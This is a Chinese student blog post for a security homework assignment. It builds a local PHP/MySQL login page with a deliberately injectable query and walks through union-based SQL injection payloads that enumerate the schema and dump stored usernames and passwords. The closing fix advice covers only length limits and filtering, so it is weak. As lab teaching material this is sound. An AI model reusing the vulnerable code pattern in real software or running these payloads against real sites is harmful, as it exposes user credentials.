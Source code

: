 ```yaml
---
title: 简单sql注入环境搭建及注入
date: 2019-10-12 15:31:12
tags: [sql注入]
categories: sql注入
---
```


网络安全作业二，sql注入，搭建注入环境并注入，以及修补注入漏洞。（图片显示不了的话，点开链接就能看了）

<!--more-->

## 一、服务器搭建

### 1、安装wampserver

wampserver在windows下将Apache+PHP+Mysql 集成,一键操作，比较方便，在此选用是因为重点在sql注入上，而不是服务器的搭建，如果想透彻学习服务器搭建，建议不要使用集成环境，可以自己一个一个装，修改配置，最后将这些连到到一起，一个网站就搭好了。

### 2、安装后的可能会遇到的问题

安装完成后，打开，电脑右下角wampserver的图标应该是绿色的，如果是红色和橙色，那就是有些服务没有开启，在图标上左键查看是哪个服务没有开启。

![3~_25K4IG`WGJ646US7GU4B.png](https://i.loli.net/2019/10/12/nexdYS84XCuc2hv.png)

花花在安装的时候就是橙色的，原因是之前做的计网实验开启了IIS服务，与apache服务冲突了，所以关掉IIS服务就可以了，具体方法为：计算机——有键——管理——服务，找到IIS关闭即可。如果之前的数据库实验用的不是MySQL，而是SQL sever，则需要将SQL server服务也关闭，方法同上。

### 3、编写登录页和测试页

左键wampserver的小图标，打开www目录，进入，新建两个文件，login.php,test.php。编辑两个文件，代码如下：

login.php:

```php
<html>
<head>
<title>网络安全作业二</title>
<meta http-equiv="content-type" content="text/html;charset=utf-8">
</head>
 <body >
<form action="test.php" method="post">
  <fieldset >
    <legend>自建sql注入平台</legend>
    <table>
      <tr>
        <td>用户名：</td>
        <td><input type="text" name="username"></td>
      </tr>
      <tr>
        <td>密  码：</td>
        <td><input type="text" name="password"></td>
      </tr>
      <tr>
        <td><input type="submit" value="提交"></td>
        <td><input type="reset" value="重置"></td>
      </tr>
    </table>
  </fieldset>
</form>
</body>
</html>
```

test.php:

```php
<?php
$pwd=$_POST['password'];
$uname=$_POST['username'];
//echo "您当前执行的sql语句为：" ;
//echo "select * from admin where passward='$pwd' and name='$uname'<br/>";
//echo "<hr>";
$mysqli = new mysqli('127.0.0.1','root','','sqlin'); 
if(mysqli_connect_errno()){
    printf("连接失败:%s<br>",mysqli_connect_error());
    exit();
}
$result = $mysqli->query("select * from admin where name='$uname'");
//print_r($result->fetch_array(MYSQLI_ASSOC));
if($row=mysqli_fetch_row($result))
{
	printf ("%s : %s",$row[0],$row[1]);
       	echo "<br>";
	echo "success！";
}
else
{
	echo "账号或密码错误！";
}
$mysqli->close();
$result->close();?>
```

然后在浏览器上输入http://localhost/login.php，即可进入登陆页面。

不过目前还没有数据库信息，在wampserver小图标左键打开mysql,进入，默认无密码，建立名为sqlin的数据库，和名为admin的表，由于以前做过数据库实验，命令在此不在赘述。

![_Z47~NFQ_K3X`XS_D~DT9~9.png](https://i.loli.net/2019/10/12/cC5yGfQdmr3JabB.png)

![6__2BL4Q_2N89_7SVVLTMF3.png](https://i.loli.net/2019/10/12/jINGSXkoeb6iME2.png)

这样环境就搭好了，可以开始注入了。

## 二、简单的sql注入

### 判断有几个显示位。

输入如下:

```bash
用户名：1' union select 1,2,3#
密码：111（任意）
```

发现报错，显示位不是3，重试

```bash
用户名：1' union select 1,2#
密码：111（任意）
```

![_AHNB_05K_I_RL5_6_9LCH7.png](https://i.loli.net/2019/10/12/Sas25K4ApngoYRV.png)

显示位为两位

### 确定表有几列

```bash
用户名：1' order by 3#
密码：111（任意）
```

报错，不是3列

```bash
用户名：1' order by 2#
密码：111（任意）
```

![G_I__P__36X9D_O_YK_OMO9.png](https://i.loli.net/2019/10/12/bSEAV4kptPBscaw.png)

表有2列

### 获取数据库名

```bash
用户名：1' union select 1,database() #
密码：111（任意）
```

![0FV6JIXIMQJY_WPE0~I__7T.png](https://i.loli.net/2019/10/12/NMXYBixLmqFGac1.png)

数据库名为sqlin

### 获取表名

```bash
用户名：1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #
密码：111（任意）
```

![X_7_7ZT1P~YPSMBJY`@_026.png](https://i.loli.net/2019/10/12/eXykOGPu6CRo2cY.png)

表名为admin

### 获取列名

```bash
用户名：0' union select (select column_name from information_schema.columns where table_name='admin' limit 0,1),(select column_name from information_schema.columns where table_name='admin' limit 1,2)#
密码：111（任意）
```

![9KK6GFE1E52BIZXKGB90_NS.png](https://i.loli.net/2019/10/12/nuq1vxTB3s5HzXd.png)

列名为name,passward

### 获取数据

```bash
用户名：1' union select name,passward from admin#
密码：111（任意）
```

![M_8AP5UDLU_F3~Z2_E_GTGN.png](https://i.loli.net/2019/10/12/X5vC8eqN9zmx3MI.png)

得到用户名及密码

（建表的时候把password拼错了）😂

## 三、注入漏洞修补

由于select语句并没有对输入的用户名进行检测，而是拿来直接用，造成的注入漏洞，可以对输入的用户名进行长度限制，或者过滤。